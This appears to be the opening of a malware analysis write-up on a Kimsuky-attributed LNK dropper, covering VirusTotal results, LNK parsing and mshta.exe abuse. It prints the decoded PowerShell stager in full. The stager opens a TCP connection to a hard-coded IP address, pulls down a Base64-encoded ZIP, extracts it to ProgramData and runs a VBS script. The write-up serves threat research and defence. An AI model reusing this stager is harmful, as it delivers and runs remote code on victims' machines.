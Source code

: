 ```yaml
---
title: Kimsuky A Gift That Keeps on Giving
date: 2024-09-15 18:55:00 +0800
categories: [Malware, APT, Kimsuky, Powershell,LNK, Dropper]
tags: [Kimsuky, North Korea, APT,  LNK, RAT]
pin: true
---
```


### Introduction
![NK](https://cdn-images-1.medium.com/v2/resize:fit:1200/0*IL_z7p5I2-W8VB8B "NK")
*Kimsuky - Shadow of Cyber Espionage*

![X](https://cdn-images-1.medium.com/v2/resize:fit:800/1*PkTwyD3JFinhPNoA276Uhw.png "X")

&rarr; A sample was tweeted by our lovable [malwrhunterteam](https://x.com/malwrhunterteam) with the tags being pointed out to Kimsuky 😍 and it was irresitable for us to have a look at it . The TTP do point to Kimsuky or a DPRK based Threat Actor. The initial infection vector is a LNK file which is mostly attributed to them.

### LNK Parse
![vt](https://cdn-images-1.medium.com/v2/resize:fit:1200/1*vwZ58iJtGu_o_rYpYo_dOw.png "VT ")

&rarr; Like every sample, we upload to VT to get a basic idea and our sample todays ranks **16/63**.
The sample is a LNK or a shortcut file in Windows.  We can use **LNKParser** to get the output in JSON format and work with it.

![LNK](https://cdn-images-1.medium.com/v2/resize:fit:1200/1*Md1VHIAf5rSqCEIIoo6IpA.png "LNK")
*lnkparse sample.lnk > lnkparse.json*

- Straight up we see some red flags like **mshta.exe** and some javascript command line arguements. The **mshta.exe** is commonly exploited by threat actors for executing malicious scripts via Microsoft HTML Application files. On crafting the payload we get the something like this: 
The server (64.49.14.181) is sending a Base64-encoded payload, which is decoded and saved as a ZIP file (t.zip). Once downloaded, the ZIP file is extracted, and the s.vbs script is executed.

```powershell
powershell -ep bypass -c $r='64.49.14.181';
$p='8014';
$r=New-Object System.IO.StreamReader((New-Object System.Net.Sockets.TcpClient($r, $p)).GetStream());
$z=$r.ReadLine();
$b=[Convert]::FromBase64String($z);
Set-Content -Path 'C:\ProgramData\t.zip' -Value $b -Encoding Byte;
Expand-Archive -Path 'C:\ProgramData\t.zip' -DestinationPath 'C:\ProgramData';
del 'C:\ProgramData\t.zip';
$v='C:\ProgramData\s.vbs';
&$v;
sc C:\ProgramData\nt91610 81
```
